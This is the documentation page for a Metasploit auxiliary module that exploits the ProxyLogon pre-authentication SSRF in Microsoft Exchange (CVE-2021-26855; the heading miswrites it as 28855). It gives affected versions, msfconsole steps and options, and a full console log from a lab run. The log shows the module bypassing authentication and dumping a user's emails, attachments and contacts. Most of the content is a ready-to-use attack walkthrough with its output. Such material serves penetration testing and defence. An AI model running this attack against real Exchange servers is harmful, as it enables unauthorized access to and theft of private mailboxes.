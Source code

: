 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication and impersonating as the admin (CVE-2021-26855).

By taking advantage of this vulnerability, it is possible to dump all mailboxes (emails, attachments,
contacts, ...).

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/gather/exchange_proxylogon`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### ATTACHMENTS

Dump documents attached to an email. Default: true

### EMAIL

The email account what you want dump.

### FOLDER

The email folder what you want dump. Default: inbox

It is also possible to use other attributes such as: drafts, sentitems, ...

More info about this in the references.

### METHOD

HTTP Method to use for the check (only). Default: POST

### TARGET

Force the name of the internal Exchange server targeted.

## Advanced Options

### MaxEntries

Override the maximum number of object to dump.

## Auxiliary Actions

### Dump (Contacts)

Dump user contacts from exchange server.

### Dump (Emails)

Dump user emails from exchange server.

## Scenarios

```
msf6 auxiliary(gather/exchange_proxylogon_collector) > options 

Module options (auxiliary/gather/exchange_proxylogon_collector):

   Name         Current Setting           Required  Description
   ----         ---------------           --------  -----------
   ATTACHMENTS  true                      yes       Dump documents attached to an email
   EMAIL        gaston.lagaffe@pwned.lab  yes       The email account what you want dump
   FOLDER       inbox                     yes       The email folder what you want dump
   METHOD       POST                      yes       HTTP Method to use for the check (only). (Accepted: GET, POST)
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       172.20.2.110              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443                       yes       The target port (TCP)
   SSL          true                      no        Negotiate SSL/TLS for outgoing connections
   TARGET                                 no        Force the name of the internal Exchange server targeted
   VHOST                                  no        HTTP server virtual host


Auxiliary action:

   Name           Description
   ----           -----------
   Dump (Emails)  Dump user emails from exchange server


msf6 auxiliary(gather/exchange_proxylogon_collector) > run
[*] Running module against 172.20.2.110

[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-26855
[*]  * internal server name (EXCH2K16)
[*] https://172.20.2.110:443 - Sending autodiscover request
[*]  * Server: d8a7cc8c-7180-4b80-b53e-57c3449bcd4e@pwned.lab
[*]  * LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=9b9d8cf634f44ec4a0eda5c1c7c311da-Gasto
[*] https://172.20.2.110:443 - Sending mapi request
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-1141 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.110:443 - Selecting the first internal server found
[*]  * targeting internal: server2
[*] https://172.20.2.110:443 - Attempt to dump emails for <gaston.lagaffe@pwned.lab>
[*]  * successfully connected to: inbox
[*]  * selected folder: inbox (AQAYAGdhc3Rvbi5sYWdhZmYAZUBwd25lZC5sYWIALgAAA+uQmQIqiSJLiXyYWVYT65MBACRuvwACXEpAuhG13iUjVgwAAAIBDAAAAA==)
[*]  * number of email found: 4
[*] https://172.20.2.110:443 - Processing dump of 4 items
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAA6ItL
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_455715.txt
[*]    -> attachment: AAAYAGdhc3Rvbi5sYWdhZmZlQHB3bmVkLmxhYgBGAAAAAADrkJkCKokiS4l8mFlWE+uTBwAkbr8AAlxKQLoRtd4lI1YMAAAAAAEMAAAkbr8AAlxKQLoRtd4lI1YMAAAA6IA6AAABEgAQAFejlEQ+wzFDoBLnyMUbSk4= (Messagerie - Administrator - Outlook.pdf)
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_392827.pdf
[*]    -> attachment: AAAYAGdhc3Rvbi5sYWdhZmZlQHB3bmVkLmxhYgBGAAAAAADrkJkCKokiS4l8mFlWE+uTBwAkbr8AAlxKQLoRtd4lI1YMAAAAAAEMAAAkbr8AAlxKQLoRtd4lI1YMAAAA6IA6AAABEgAQAAZVIXO5iaNNtJIokpS4aB4= (03.png)
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_187857.png
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAA6ItK
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_470603.txt
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEc
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_296938.txt
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEX
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_524052.txt
[*] 
[*] Auxiliary module execution completed
msf6 auxiliary(gather/exchange_proxylogon_collector) > set action Dump\ (Contacts) 
action => Dump (Contacts)
msf6 auxiliary(gather/exchange_proxylogon_collector) > run
[*] Running module against 172.20.2.110

[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-26855
[*]  * internal server name (EXCH2K16)
[*] https://172.20.2.110:443 - Sending autodiscover request
[*]  * Server: d8a7cc8c-7180-4b80-b53e-57c3449bcd4e@pwned.lab
[*]  * LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=9b9d8cf634f44ec4a0eda5c1c7c311da-Gasto
[*] https://172.20.2.110:443 - Sending mapi request
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-1141 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.110:443 - Selecting the first internal server found
[*]  * targeting internal: server2
[*] https://172.20.2.110:443 - Attempt to dump contacts for <gaston.lagaffe@pwned.lab>
[*]  * successfully connected to: contacts
[*]  * selected folder: contacts (AQAYAGdhc3Rvbi5sYWdhZmYAZUBwd25lZC5sYWIALgAAA+uQmQIqiSJLiXyYWVYT65MBACRuvwACXEpAuhG13iUjVgwAAAIBDgAAAA==)
[*]  * number of contact found: 1
[*] https://172.20.2.110:443 - Processing dump of 1 items
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120243_default_172.20.2.110_gaston.lagaffep_160567.txt
[*] Auxiliary module execution completed
msf6 auxiliary(gather/exchange_proxylogon_collector) > 
```

## References

1. <https://proxylogon.com/>
2. <https://aka.ms/exchangevulns>
3. <https://docs.microsoft.com/en-us/exchange/client-developer/web-service-reference/distinguishedfolderid>
4. <https://github.com/3gstudent/Homework-of-Python/blob/master/ewsManage.py>
